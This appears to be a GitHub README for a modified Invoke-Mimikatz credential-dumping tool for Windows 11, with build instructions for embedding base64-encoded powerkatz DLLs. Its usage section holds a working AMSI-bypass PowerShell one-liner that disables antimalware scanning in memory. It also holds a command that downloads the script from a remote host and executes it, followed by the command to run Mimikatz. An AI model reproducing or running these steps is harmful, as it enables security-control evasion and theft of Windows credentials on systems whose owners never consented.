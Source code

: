 # Invoke-Mimikatz
Updated version of Invoke-Mimikatz that runs on Windows 11.

1. Download Invoke-Mimikatz.ps1 from the PowerShellMafia repo (https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1).
2. Change the following line:
`$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress')` to `$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null);`

3. Clone the mimikatz repo from ebalo55 (https://github.com/ebalo55/mimikatz/tree/main).
4. Open the project in VSCode.
5. Select "Second_Release_PowerShell" and build the project.
6. Base64 encode `Win32/powerkatz.dll` and `x64/powerkatz.dll`.
7. Replace the content of the `PEBytes64` and `PEBytes32` variables with base64 encoded payloads.

How to use:

1. Bypass AMSI `$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);$ptr = [System.IntPtr]::Add([System.IntPtr]$g, 0x8);$buf = New-Object byte[](8);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 8)
`
2. Load Invoke-Mimikatz `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tartofour/Invoke-Mimikatz/main/Invoke-Mimikatz.ps1')`

3. Run Invoke-Mimikatz `Invoke-Mimikatz`

References:
- https://github.com/mitre/caldera/issues/38
- https://blog.harmj0y.net/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/ 
